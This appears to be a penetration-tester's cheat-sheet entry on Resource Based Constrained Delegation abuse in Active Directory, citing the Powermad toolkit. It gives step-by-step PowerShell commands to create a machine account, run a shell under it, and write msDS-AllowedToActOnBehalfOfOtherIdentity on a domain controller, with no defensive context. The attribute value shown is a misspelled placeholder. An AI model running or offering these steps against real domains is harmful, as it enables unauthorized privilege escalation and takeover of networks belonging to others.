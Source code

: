 
## [[Resource Based Constrained Delegation (RBCD)]]
Add a new machine account
> New-MachineAccount -MachineAccount test

Use the added account with runas /netonly
> runas /netonly /user:domain\test$ powershell

Set the `msDS-AllowedToActOnBehalfOfOtherIdentity` to the current machine
> Set-MachineAccountAttribute -MachineName dc-1 -Attribute msDS-AllowedToActOnBehalfOfOtherIdentity -Value test-securitydesciptor

```meta
requirements: 
results: 
oss: #ps1
source: https://github.com/Kevin-Robertson/Powermad
description: PowerShell MachineAccountQuota and DNS exploit tools
```